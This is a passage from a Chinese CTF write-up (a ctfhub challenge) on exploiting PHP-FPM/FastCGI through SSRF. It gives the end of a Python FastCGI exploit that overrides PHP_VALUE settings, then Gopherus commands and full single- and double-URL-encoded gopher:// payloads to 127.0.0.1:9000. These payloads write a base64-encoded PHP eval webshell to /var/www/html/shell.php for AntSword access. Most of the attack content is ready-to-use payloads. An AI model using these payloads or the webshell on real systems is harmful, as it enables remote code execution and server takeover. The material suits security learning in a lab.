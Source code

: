 ```
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

### 方法二：

`gopherus工具`直接打fastcgi，我觉得这个方便点

ctfhub上的题

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 //这里输入的是一个已知存在的php文件
echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4 | base64 -d > /var/www/html/shell.php
```

这儿是urlencode一次编码

```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH134%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%86%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4%20%7C%20base64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

我们需要进行二次编码

```
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4%2520%257C%2520base64%2520-d%2520%253E%2520%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

然后我们可以用蚁剑连接，找根目录，就可以得到flag

## FTP的被动模式打FPM/FastCGI

### FTP的前置知识

#### FTP 协议
